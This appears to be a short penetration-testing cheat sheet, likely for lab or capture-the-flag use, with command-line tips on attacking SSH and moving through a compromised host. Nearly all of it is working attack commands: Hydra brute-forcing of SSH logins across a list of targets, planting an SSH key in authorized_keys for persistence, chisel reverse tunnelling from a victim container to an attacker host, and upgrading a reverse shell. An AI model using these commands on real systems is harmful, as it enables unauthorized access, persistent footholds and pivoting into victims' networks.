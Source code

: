 # Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 8000 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:8000 R:127.0.0.1:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
